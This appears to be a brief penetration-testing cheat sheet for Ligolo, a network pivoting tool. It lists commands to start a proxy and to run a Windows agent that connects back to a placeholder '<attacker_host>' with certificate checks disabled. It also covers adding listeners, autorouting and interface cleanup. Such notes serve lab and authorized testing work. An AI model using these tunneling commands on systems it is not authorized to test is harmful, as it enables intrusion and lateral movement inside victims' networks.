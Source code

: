 # Ligolo

Setting up ligolo

* download latest update for windows/linux proxy/agent

Starting ligolo

```
sudo ./lin-proxy -selfcert -laddr 0.0.0.0:9000
```

Initiating connection from agent to proxy

```
.\win-agent.exe -connect <attacker_host>:9000 -ignore-cert
```

Adding Listener (for file transfer)

```
listener_add --addr 0.0.0.0:9999 --to 127.0.0.1:9999 --tcp
```

list sessions

```
session
-------------
1
```

autoroute (on ligolo)

```
autoroute
```

list ip interfaces&#x20;

```
ip a
```

clean up interfaces

```
sudo ip link delete <tktk>
```
